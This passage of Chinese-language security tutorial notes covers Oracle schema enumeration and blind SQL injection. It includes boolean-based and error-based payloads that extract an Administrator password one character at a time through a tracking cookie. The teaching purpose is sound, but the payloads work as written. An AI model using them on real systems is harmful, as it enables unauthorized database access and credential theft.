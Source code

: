 ##### Orcale中的information schema

在Orcale中需要用别的方法来达到上述的效果

```sql
SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```

### 盲注

当存在SQL注入但是不存在回显的时候就需要用到盲注。

#### 布尔盲注-有回显

假设一个网站使用tracking cookies来收集关于使用情况的分析，cookie可能是这样：

```
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```

当处理包含`TrackingId`的cookie的请求时，服务器使用如下的SQL语句确定该用户的身份

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

这样的查询就存在SQL注入，但是查询的结果不会返回。但是对于不同的数据，网站的行为可能有所不同，假设提交的ID被是被成功，网页会显示一条欢迎回来之类的信息，这样的行为足矣。

假设注入下述语句：

```sql
…xyz' AND '1'='1
…xyz' AND '1'='2
```

第一个值将返回结果，因为注入的`'1'='1`是正确的，因此会显示欢迎回来，所以第二行不会显示欢迎回来。这就允许攻击者确定任何表达是否正确。

假设有一个名为`Users`的表，列是`username`和`password`，并且诶存在一个名为`Administrator`的用户。攻击者可以通过一系列的paylaod确定此用户的密码。

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```

`SUBSTRING`函数在一些数据库中叫做`SUBSTR`。

如果这样的输入会显示欢迎回来，说明密码的第一个字符是大于m。

如果不显示欢迎回来这样的信息的话，返回数据库报错信息也是可以的。

```sql
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

这俩payload使用`CASE`关键字来测试条件，根据表达式是否成立从而返回不同的表达式。第一个payload，CASE表达式应当返回`'a'`，这没有错。第二个payload中，将会计算`1/0`，这就会导致一个错误。如果是否出错会让有些地方产生差异，攻击者可以根据差异来判断。

使用`CASE`关键字，上面那个`SUBSTRING`的payload还可以这样写

```sql
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```
